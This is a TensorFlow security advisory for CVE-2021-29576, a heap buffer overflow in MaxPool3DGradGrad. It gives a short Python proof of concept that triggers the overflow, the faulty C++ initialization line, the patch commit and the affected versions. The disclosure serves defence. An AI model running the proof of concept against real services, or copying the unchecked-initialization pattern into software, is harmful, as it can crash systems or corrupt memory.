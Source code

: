 ## TFSA-2021-064: Heap buffer overflow in `MaxPool3DGradGrad`

### CVE Number
CVE-2021-29576

### Impact
The implementation of `tf.raw_ops.MaxPool3DGradGrad` is vulnerable to a heap
buffer overflow:

```python
import tensorflow as tf

values = [0.01] * 11
orig_input = tf.constant(values, shape=[11, 1, 1, 1, 1], dtype=tf.float32)
orig_output = tf.constant([0.01], shape=[1, 1, 1, 1, 1], dtype=tf.float32)
grad = tf.constant([0.01], shape=[1, 1, 1, 1, 1], dtype=tf.float32)
ksize = [1, 1, 1, 1, 1]
strides = [1, 1, 1, 1, 1]
padding = "SAME"

tf.raw_ops.MaxPool3DGradGrad(
    orig_input=orig_input, orig_output=orig_output, grad=grad, ksize=ksize,
    strides=strides, padding=padding)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/596c05a159b6fbb9e39ca10b3f7753b7244fa1e9/tensorflow/core/kernels/pooling_ops_3d.cc#L694-L696)
does not check that the initialization of `Pool3dParameters` completes
successfully:

```cc
Pool3dParameters params{context,  ksize_,       stride_,
                        padding_, data_format_, tensor_in.shape()};
```

Since [the
constructor](https://github.com/tensorflow/tensorflow/blob/596c05a159b6fbb9e39ca10b3f7753b7244fa1e9/tensorflow/core/kernels/pooling_ops_3d.cc#L48-L88)
uses `OP_REQUIRES` to validate conditions, the first assertion that fails
interrupts the initialization of `params`, making it contain invalid data. In
turn, this might cause a heap buffer overflow, depending on default initialized
values.

### Patches
We have patched the issue in GitHub commit
[63c6a29d0f2d692b247f7bf81f8732d6442fad09](https://github.com/tensorflow/tensorflow/commit/63c6a29d0f2d692b247f7bf81f8732d6442fad09).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
